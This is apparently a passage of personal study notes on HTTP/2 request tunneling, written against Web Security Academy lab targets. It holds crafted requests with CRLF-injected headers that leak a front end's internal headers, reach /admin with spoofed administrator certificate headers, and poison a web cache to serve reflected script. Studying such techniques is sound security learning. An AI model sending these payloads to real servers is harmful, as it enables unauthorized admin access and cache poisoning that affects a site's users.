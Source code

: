 
if the front end uses only one request/response per socket open ie. no connection reuse.

#### Leaking internal header in HTTP/2 tunneling

front end server will append its internal headers to comment part leaking the header values

```js
:method	POST
:path	/comment
:authority	vulnerable-website.com
content-type: application/x-www-form-urlencoded
foo: bar\r\n
Content-Length: 200\r\n
\r\n
comment=

x=1
```


#### Non blind tunneling using HEAD

```
:method	HEAD
:path	/example
:authority	vulnerable-website.com
thomas: t\r\n
\r\n
GET /admin HTTP/1.1
Host: 0a7e008504b85cc581777bbf00a50087.web-security-academy.net
X-SSL-VERIFIED: 1
X-SSL-CLIENT-CN: administrator
X-FRONTEND-KEY: 5860237865014140\r\n
\r\n

```


### web cache poisoning via tunneling

if user input gets reflected in a json response normally browser won't execute those inline javascript, unless its tunneled with another HEAD request and that is cached by the cdn.

```
:method	HEAD
:path	/asset.js
:authority	vulnerable-website.com
thomas: t\r\n
\r\n
GET /my-notes?id=1 HTTP/1.1
Host: 0a7e008504b85cc581777bbf00a50087.web-security-academy.net
\r\n

```